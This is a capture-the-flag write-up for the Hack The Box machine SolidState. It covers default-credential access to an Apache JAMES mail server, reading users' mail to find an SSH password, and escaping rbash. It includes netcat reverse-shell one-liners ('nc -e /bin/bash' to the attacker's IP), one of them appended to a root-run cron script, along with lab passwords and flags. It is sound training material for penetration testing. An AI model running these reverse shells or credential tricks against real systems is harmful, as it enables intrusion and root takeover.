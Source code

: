 Machine: https://app.hackthebox.com/machines/85
IP: 10.10.10.51

# Enumeration

webadmin@solid-state-security.com

25/tcp   open     smtp       JAMES smtpd 2.3.2

Reading the documentation, we can see that we can connect to JAMES smtp server through telnet port 4555

https://documentation.softwareag.com/webmethods/wmsuites/wmsuite10-7/Cross_Product/10-7_Infra_Admin_webhelp/index.html#page/wsi-webhelp/ta-setting_up_apache_james_server.html

We can login with default credential `root:root`

Users
```
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
```

By being root user, we can set password for other users here as well

```
setpassword james password
```

POP3 (Port 110) is used to read email.
Checking john email, we can see that password is requested for user `mindy`.
```bash
USER john
+OK
pass password
+OK Welcome john
list
+OK 1 743
1 743
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

Only `mindy` has emails and contains credential.

```bash
telnet 10.10.10.51 110

Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 

USER mindy
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We got credential from this email:

```
username: mindy
pass: P@55W0rd1!2@
```

# Exploitation

We can gather the credential by using method above only if the credential is contained in the email message itself.

This exploit requires user to login via SSH

https://www.exploit-db.com/exploits/50347

User.txt 618e6c0d270311fb82f91ba005a29bca

# Post-Exploitation

We land in rbash shell of Mindy

To avoid being in rbash shell, we need to use netcat reverse shell instead of SSH shell.

https://www.exploit-db.com/exploits/35513

Modify the payload to be nc one liner

`payload = 'nc -e /bin/bash 10.10.16.12 1234'`

Execute this and login with Mindy through SSH to trigger the payload

```bash
mindy@solidstate:~$ ls -la /opt
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

/opt/tmp.py is writable by other and executable by root. Might be a cronjob

```python3
mindy@solidstate:~$ cat /opt/tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Add one liner to the script for reverse shell

`echo "os.system('nc -e /bin/bash 10.10.16.12 1234')" >> /opt/tmp.py`

Wait few minutes

root.txt a2d3e666e0bef2c01b5c11aaad181e42
![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/40ae2e9f-2c89-4086-bd93-fab435b46ba3)
